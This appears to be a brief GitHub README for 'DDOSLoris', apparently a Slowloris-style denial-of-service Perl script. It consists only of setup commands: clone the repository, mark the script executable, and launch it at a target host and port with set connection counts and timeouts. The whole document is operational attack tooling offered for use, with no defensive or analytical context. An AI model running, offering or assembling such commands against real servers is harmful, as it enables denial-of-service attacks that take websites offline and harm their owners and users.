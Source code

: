 # DDOSLoris
DDOS Attack - LORIS UPDATE 

<h1>Linux Setup</h1>
<li>git clone https://github.com/Anonyblack21/DDOSLoris.git</li>
<li>cd DDOSLoris</li>
<li>ls</li>
<li>chmod a+x ddosloris.pl</li>
<li>./ddosloris.pl</li>
<li>./ddosloris.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5</li>
